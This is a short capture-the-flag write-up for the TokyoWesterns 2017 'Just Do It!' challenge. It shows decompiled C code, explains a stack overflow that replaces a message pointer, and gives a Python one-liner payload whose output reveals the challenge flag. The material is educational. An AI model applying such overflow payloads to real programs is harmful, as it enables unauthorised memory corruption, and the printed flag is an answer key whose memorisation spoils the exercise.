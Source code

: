 # TokyoWesterns 2017 - Just Do It!

The flag seems to be stored somewhere in memory. Thankfully, using ```checksec```, we can see that ```PIE``` is disabled.

```c
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  pcVar1 = fgets(local_28,0x20,stdin);
  if (pcVar1 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(local_28,PASSWORD);
  if (iVar2 == 0) {
    local_14 = success_message;
  }
  puts(local_14);
```

We can overflow in ```local_14``` and change the value to point to the flag.

```bash
[root@pwn:~/tw17_justdoit]$ python -c 'print "A" * 20 + "\x80\xa0\x04\x08"' | ./just
_do_it 
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```